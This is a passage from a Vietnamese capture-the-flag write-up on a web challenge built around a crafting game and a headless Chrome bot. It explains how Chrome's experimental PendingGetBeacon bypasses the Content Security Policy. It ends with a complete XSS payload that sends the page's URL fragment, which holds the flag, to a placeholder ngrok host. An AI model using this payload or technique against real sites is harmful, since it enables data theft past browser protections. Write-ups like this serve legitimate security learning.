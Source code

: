 ```js
		'--js-flags=--noexpose_wasm,--jitless',
		'--disable-gpu',
		'--no-first-run',
		'--enable-experimental-web-platform-features',
		`http://127.0.0.1:8080/#${Buffer.from(JSON.stringify(state)).toString('base64')}`
	],
	{ detached: true }
)

```

Và cuối cùng là đoạn này, khi chúng ta đến đường dẫn `/remoteCraft` và cho nó 1 parameter `recipe` thì chúng ta có trigger server đi đến website này với phần fragment identifier là giá trị của object `state`

Có một vài setting đã được thêm vào, đoạn setting này sẽ ngăn không cho tải trước bất kỳ tài nguyên từ mạng nào

```js
net:
{
  network_prediction_options: 2
}
```

Sau khi có các dữ kiện, chúng ta có thể nghỉ đến craft recipe sao cho trả về kết quả là `XSS` và chèn lệnh javascript vào để eval gửi flag về cho chúng ta, mình đã thử rất nhiều cách và tìm được một cách đó là `sourceMappingURL` nhưng để dùng được cái này thì phải mở được `Devtools` của chrome nhưng cách này hoàn toàn không được vì dính bảo mật của chrome

Sau đó mình thử rất nhiều lệnh vào nhưng không có lệnh nào có thể vượt qua được csp và các setting của chrome trên, đến lúc này thì mình đã bó tay và bỏ cuộc

Sau giải khi mình đọc được writeup của `satoki` thì mình mới biết được rằng chúng ta có thể dùng `PendingGetBeacon` đây là một chức năng thử nghiệm của chrome (sau này được thay thế bằng `fetchLater` ở những phiên bản sau này)

Giải thích về chức năng của `PendingGetBeacon` nó sẽ gửi request đến một HTTPS server sau khi browser bị huỷ hoặc đã được lưu vào cache và không được tải lại sau một khoảng thời gian. Nhưng điều đặc biệt nhất, nó không bị dính giới hạn của CSP và có thể dùng để gửi data trong web ra ngoài

Ta sẽ thêm một options để send beacon khi mà trang  bị huỷ/ không được load sau 1 thời gian nhất định sẽ gửi request lên server bằng `{timeout:1000}`(sau 1s sẽ gửi)

Lúc này thì đã biết được lệnh nào có thể sử dụng được thì đoạn này đã dễ rồi

Payload: `recipe={"recipe": [["Air", "Water"], ["Earth", "Water"], ["Earth", "Fire"], ["Fire", "Mist"], ["Magma", "Mud"], ["Fog", "Mud"], ["Obsidian", "Water"], ["Hot Spring", "Sludge"], ["Fire", "Steam Engine"], ["Air", "Earth"], ["Earth", "Obsidian"], ["Hot Spring", "Steam Engine"], ["Dust", "Heat Engine"], ["Computer Chip", "Fire"], ["Computer Chip", "Steam Engine"], ["Computer Chip", "Electricity"], ["Magma", "Mist"], ["Fire", "Sand"], ["Artificial Intelligence", "Data"], ["Computer Chip", "Software"], ["Air", "Rock"], ["Glass", "Software"], ["Encryption", "Software"], ["Internet", "Program"], ["Cybersecurity", "Vulnerability"], ["Exploit", "Web Design"]], "xss": "new PendingGetBeacon('https://NGROKSERVER/xxxx/?yuu=' + window.location.hash.slice(1), {timeout: 1000});"}`

